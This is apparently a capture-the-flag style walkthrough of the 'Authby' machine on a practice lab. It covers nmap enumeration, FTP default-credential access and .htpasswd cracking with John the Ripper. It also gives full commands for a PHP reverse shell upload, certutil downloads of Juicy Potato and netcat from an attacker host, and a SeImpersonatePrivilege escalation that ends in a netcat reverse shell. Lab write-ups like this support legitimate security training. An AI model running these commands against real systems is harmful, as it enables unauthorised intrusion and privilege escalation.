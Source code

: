 # **Authby | Proving Grounds Practice**


***

## **Difficulty == Hard**


![image](https://i.pinimg.com/originals/e6/ef/60/e6ef60252e1a13ba001279c54f868ce0.gif)


***



Running an nmap scan we have:



```
# Nmap 7.94SVN scan initiated Sun Jul  7 15:06:55 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt -Pn 192.168.223.46
Nmap scan report for 192.168.223.46
Host is up (0.15s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
--SNIP--
242/tcp  open  http               Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
3145/tcp open  zftp-admin         zFTPServer admin
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2024-07-07T14:09:50+00:00
|_ssl-date: 2024-07-07T14:09:55+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=LIVDA
| Issuer: commonName=LIVDA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-04-10T18:40:02
| Not valid after:  2024-10-10T18:40:02
| MD5:   f90f:0605:514d:dfe9:715d:b588:528e:16de
|_SHA-1: db3a:b973:d0f5:6dcc:f1e2:f121:1a95:e956:8c8d:a632
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  7 15:09:57 2024 -- 1 IP address (1 host up) scanned in 181.67 seconds
```



Anonymous login is enabled on the default FTP server but we can't download files neither can we put files

![](https://i.imgur.com/MWxJ8xe.png)


On port 242/HTTP we have an encrypted websites, We can't bruteforce cos we don't have a username



![](https://i.imgur.com/3WWYmZ3.png)



There is another FTP port but anonymous login isn't enabled


![](https://i.imgur.com/lQ6tZ7A.png)


Navigated back to the default FTP server and under the accounts directory we can see some lists of accounts



![](https://i.imgur.com/1XhyeKi.png)



Decided to try out the account `admin` and password `admin` which worked



![](https://i.imgur.com/uPNWiCH.png)



Downloaded all the files which was possible xD


![](https://i.imgur.com/y0hsn3l.png)


Under the `.htpasswd` file we have an encrypted password and username, looks like what we need for the web app login endpoint



![](https://i.imgur.com/65LUkZ0.png)


I also confirmed if the FTP server is connected to the web application which is true cos trying to read `.htpasswd` which was available at the FTP server is probably readable on the web application if we did not have a `403` status code



![](https://i.imgur.com/ZNoNiWr.png)



Decided to crack the password we got with `JtR` and we got a valid set of credential



```
john .htpasswd --wordlist=/usr/share/wordlists/rockyou.txt
```



![](https://i.imgur.com/jSgILCH.png)



Logged in via the web application endpoint and it was successful as seen below


![](https://i.imgur.com/xSdYWpk.png)


I also make sure to confirm if we had this same text in the `index.php` file downloaded from the FTP server


![](https://i.imgur.com/m7I53a7.png)


## **FootHold**


Saved Ivan Sinceck PHP shell to a file and use the `put` command to upload to the FTP server then executed it from the URL making sure i have my listener turned on



```
nc -lvnp 4444
```




![](https://i.imgur.com/xPsxY7f.png)



I found out that we have the `SeImpersonatePrivilege` and we can use this to escalate to administrator, the below command retrieves and displays specific system information, including the host name, OS name, OS version, system type, and hotfixes installed, from the output of the `systeminfo` command.



```bash
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```




![](https://i.imgur.com/7RjHWnh.png)


We can see that this is a `x86` system so we need 32 bit binaries, Transferred Juicy Potato which can be gotten from [here](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2), the netcat 32 bit version can also be googled online.



```
certutil -urlcache -f http://192.168.45.213/Juicy.Potato.x86.exe Juicy.Potato.x86.exe

certutil -urlcache -f http://192.168.45.213/nc.exe nc.exe
```



Then we need the CLSID to actually make this work, You can get the CLSID from [https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/)




```
.\Juicy.Potato.x86.exe -t * -p c:\windows\system32\cmd.exe -a "/c C:\wamp\bin\apache\Apache2.2.21\nc.exe 192.168.45.213 1337 -e cmd.exe" -l 1337 -c "{3c6859ce-230b-48a4-be6c-932c0c202048}"
```




![](https://i.imgur.com/EguxHg4.png)




Bankaaaaiiiii ⚔️





